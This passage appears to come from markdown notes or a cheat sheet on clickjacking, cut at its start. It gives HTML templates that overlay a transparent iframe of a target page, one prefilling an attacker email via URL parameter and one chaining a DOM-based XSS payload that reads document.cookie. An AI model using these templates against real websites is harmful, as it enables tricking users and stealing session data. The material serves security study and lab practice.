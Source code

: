 	2. Send the link to the victime and pray


- Clickjacking with form input data prefilled from a URL parameter

	1. Construct a page looking like : 
		```html
		<style>  
		   iframe {  
			   position:relative;  
			   width:$width_value;  
			   height: $height_value;  
			   opacity: $opacity;  
			   z-index: 2;  
		   }  
		   div {  
			   position:absolute;  
			   top:$top_value;  
			   left:$side_value;  
			   z-index: 1;  
		   }  
		</style>  
		<div>Test me</div>  
		<iframe src="$url?email=hacker@attacker-website.com"></iframe>
		```

	2. Send the link to the victime and pray


- Exploiting clickjacking vulnerability to trigger DOM-based XSS

	1. Construct a page looking like:
	
	```html
		<style>  
	 iframe {  
	 position:relative;  
	 width:$width\_value;  
	 height: $height\_value;  
	 opacity: $opacity;  
	 z-index: 2;  
	 }  
	 div {  
	 position:absolute;  
	 top:$top\_value;  
	 left:$side\_value;  
	 z-index: 1;  
	 }  
	</style>  
	<div>Test me</div>  
	<iframe  
	src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
	```
	